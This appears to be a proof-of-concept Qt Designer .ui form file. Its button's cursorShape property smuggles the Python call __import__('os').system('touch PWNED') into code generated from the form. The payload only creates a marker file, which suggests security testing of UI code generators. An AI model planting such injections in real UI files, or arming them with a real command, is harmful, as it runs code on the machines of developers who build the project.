
<?xml version="1.0" encoding="UTF-8"?>
<ui version="4.0">
 <class>Form</class>
 <widget class="QWidget" name="Form">
  <layout class="QVBoxLayout" name="lay">
   <item>
    <widget class="QPushButton" name="btn">
     <property name="cursor"><cursorShape>ArrowCursor); __import__("os").system("touch PWNED"); (Qt.ArrowCursor</cursorShape></property>
    </widget>
   </item>
   <item>
    <widget class="QLabel" name="lab"/>
   </item>
  </layout>
 </widget>
 <resources/>
 <connections/>
</ui>
